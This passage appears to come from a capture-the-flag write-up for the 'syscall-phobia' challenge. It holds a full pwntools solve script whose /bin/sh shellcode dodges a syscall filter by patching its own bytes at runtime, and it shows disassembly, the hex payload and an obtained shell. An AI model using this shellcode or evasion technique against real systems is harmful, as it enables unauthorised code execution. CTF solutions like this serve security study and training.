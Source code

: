 ```shell
  25:   56                      push   rsi
  26:   48 89 e6                mov    rsi, rsp
  29:   31 d2                   xor    edx, edx
  2b:   6a 3b                   push   0x3b
  2d:   58                      pop    rax
  2e:   fe 05 00 00 00 00       inc    BYTE PTR [rip+0x0]        # 0x34
[*] Payload: 6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b58fe05000000000e05909090
[*] Payload length: 114
[*] Switching to interactive mode

Executing your assembly code!
$ ls
solve.py  syscall-phobia  syscall-phobia.i64
``` 

Full exploit code:
```python
from pwn import *
import sys

exe = ELF("./syscall-phobia")
host = "ctf-85ib.balancedcompo.site" 
port = 9998

def exploit(p):
    shellcode = asm(
        "push   0x68;"
        "movabs rax, 0x732f2f2f6e69622f;"
        "push   rax;"
        "mov    rdi, rsp;"
        "push   0x1016972;"
        "xor    DWORD PTR [rsp], 0x1010101;"
        "xor    esi, esi;"
        "push   rsi;"
        "push   0x8;"
        "pop    rsi;"
        "add    rsi, rsp;"
        "push   rsi;"
        "mov    rsi, rsp;"
        "xor    edx, edx;"
        "push   0x3b;"
        "pop    rax;"
        "inc    BYTE PTR [rip];",
        arch = 'amd64', os = 'linux'
    )

    print(disasm(shellcode))
    
    a = ['0x{:02x}'.format(u8(a))[2:] for a in shellcode] # Converting shellcode to hex string
    a += ["0e", "05", "90", "90", "90"] # syscall + a few NOPs
    payload = ''.join(a)

    lg('Payload: ' + payload)
    lg('Payload length: ' + str(len(payload)))
    
    sla('Enter assembly bytecode here! (No syscalls please, tenks): ', payload)

    p.interactive()

if __name__ == "__main__":
    context.binary = exe

    if sys.argv[-1] == "remote":
```